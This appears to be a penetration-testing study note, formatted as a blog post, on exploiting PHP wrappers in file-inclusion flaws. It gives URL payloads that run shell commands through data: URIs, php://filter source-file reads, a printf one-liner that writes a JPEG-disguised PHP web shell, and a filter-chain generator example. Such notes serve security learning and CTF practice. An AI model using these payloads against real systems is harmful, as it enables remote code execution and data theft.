 ```yaml
---
description: >-
  PHP Wrappers
title: PHP Wrappers              # Add title here
date: 2023-02-01 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, PHP Wrappers]                     # Change Templates to Writeup
tags: [exploitation, php, wrapper]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

## Wrappers
### data
Represent a string on the web page
```bash
http://10.11.0.22/menu.php?file=data:text/plain,hello world
```
![Description](/assets/img/Pasted image 20220905144914.png)
Shell with data
```
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
![Description](/assets/img/Pasted image 20220905144942.png)
[[pain - 10.11.1.35#^f0daaa]]
### php://filter
Read file with base64 encode:
```php
php://filter/convert.base64-encode/resource=index.php
```
Examples:
[[StreamIO#^c6abe1]]
[[StreamIO#^56bdc2]]
[[StreamIO#^2912d9]]
[[StreamIO#^6f66d1]]

### Bypassing restrictions
Using magic number to bypass jpeg restriction:
```bash
printf '\xff\xd8\xff<?=`{$_GET["cmd"]}`;>' > sploit.php
```
Examples:
[ECHO CTF Cupidme](https://echoctf.red/target/33/writeup/read/7)

### PHP FILTER CHAIN GENERATOR
An excellent option to create a wrapper is by appending encoding wrappers for every character, this can be done with 
[php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator):

```bash
$ php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|/resource=php://temp');"
cwwwwcGyQpQw+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+-AD0APQ+AD0APQ-
```

### Common Attacks
![Description](/assets/img/Pasted image 20220811010103.png)

